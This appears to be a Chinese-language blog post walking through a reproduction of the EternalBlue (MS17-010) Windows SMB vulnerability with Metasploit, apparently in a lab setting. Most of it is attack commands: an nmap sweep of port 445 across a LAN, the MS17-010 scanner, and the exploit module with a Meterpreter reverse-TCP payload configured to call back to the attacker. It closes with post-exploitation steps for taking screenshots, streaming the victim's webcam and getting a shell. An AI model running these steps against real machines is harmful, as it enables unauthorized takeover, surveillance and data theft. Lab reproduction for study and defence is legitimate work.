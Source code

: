 ```yaml
---
title: MSF永恒之蓝漏洞复现
tags: 
- 漏洞
categories:
- 网络安全
top_img: https://images.pexels.com/photos/1089440/pexels-photo-1089440.jpeg?auto=compress&cs=tinysrgb&dpr=1&w=500
cover: https://images.pexels.com/photos/1089440/pexels-photo-1089440.jpeg?auto=compress&cs=tinysrgb&dpr=1&w=800
date: 2020-03-26
id: MSF
---
```


永恒之蓝是指2017年5月12日起，全球范围内爆发的基于Windows网络共享协议进行攻击传播的蠕虫恶意代码，不法分子通过改造之前泄露的NSA黑客武器库中“永恒之蓝”攻击程序发起的网络攻击事件。

因为永恒之蓝攻击的是445端口, 扫描局域网中所有开放的445端口

```sh
nmap -sS -p 445 192.168.1.1-245
```

打开MSF, 加载扫描模块, 扫描靶机是否存在该漏洞
```sh
use auxiliary/scanner/smb/smb_ms17_010
show options
set rhosts 192.168.0.130       (靶机的IP)
exploit
```

加载攻击模块,并配置参数
```sh
use exploit/windows/smb/ms17_010_eternalblue

set payload windows/x64/meterpreter/reverse_tcp

show options

set rhost 192.168.0.130 (靶机的IP)

set lhost 192.168.0.129 (发起攻击的主机IP)

set lport 443       (监听的端口)

exploit
```

功能展现

1.捕捉桌面：
meterpreter >screenshot

2.视屏开启
meterpreter > webcam_stream

3.获取shell





